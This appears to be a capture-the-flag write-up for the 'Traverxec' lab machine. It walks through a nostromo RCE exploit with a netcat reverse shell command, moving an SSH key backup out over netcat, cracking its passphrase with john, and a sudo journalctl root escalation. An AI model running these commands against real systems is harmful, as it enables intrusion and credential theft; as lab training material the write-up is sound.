# Traverxec


**Tools: nmap, ssh2john, john.**

We begin with the nmap scan:  
`nmap -Pn -sV -sC --min-rate=10000 -p- 10.10.10.165`



With port 80 open, we check the webpage and run a fuzzer, but there's nothing useful to be found.
With the nmap scan we got the webserver name and version, so we can go straight to [exploit-db](https://www.exploit-db.com/) and search for nostromo 1.9.6:



We can download this RCE exploit. I had to edit it and comment (#) the line with cve2019_16278.py to make it work - it is required to inform the target's IP, port and then the command to execute (in this case, a netcat reverse shell). First start a netcat listening session, then in another terminal window run the exploit:  
```
nc -vnlp 9001  
python 47837.py 10.10.10.165 80 "nc -e sh 10.10.14.245 9001"  
(use your tun0 IP for the nc reverse shell)
```





Now we can spawn a fully interactive shell using python:  
`python -c 'import pty; pty.spawn("/bin/sh")'`

Enumeration begins, then '/etc/passwd' shows us a user 'david' and at '/var' we can see a 'nostromo' directory. Inside it there's a directory 'conf', that has this 'nhttpd.conf' file.



Reading this file reveals, under the 'HOMEDIRS' section, that inside the user's home directory there might be a public_www folder.  
We don't have permission to access /home/david but we can open /home/david/public_www, then get inside the protected-file-area directory.



Inside this folder there's a backup-ssh-identity-files.tgz file that we can download, extract and analyse in our machine.  
From the remote shell send the file through netcat, then catch it in your machine (remember to use your tun0 IP):  
```
nc 10.10.14.245 9002 < backup-ssh-identity-files.tgz  
nc -vnlp 9002 > backup-ssh-identity-files.tgz  
```







With the id_rsa (private key) we can try connecting to the box using SSH, but we're still required to provide a password. We can use ssh2john and then john to get the password.  
```
/usr/share/john/ssh2john.py id_rsa > hash  
john hash --wordlist=/usr/share/wordlists/rockyou.txt
```



We get the password 'hunter'. Now we use SSH and grab the user flag.



Inside david's home directory we can see the 'bin' folder, and inside it the script 'server-stats.sh'.
Reading the script reveals us that journalctl ("an utility for querying and displaying logs from journald, systemd’s logging service") runs with sudo permissions, showing us the last 5 lines of the nostromo service logs.



Looking for a privesc at [GTFObins](https://gtfobins.github.io/gtfobins/journalctl/#sudo), we have not only the technique, but also a quick explanation - journalctl invokes 'less', so we can use a command to spawn an interactive root shell from it:  
```
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service  
!/bin/bash
```



And we have a root shell! Now just grab the root flag from /root.
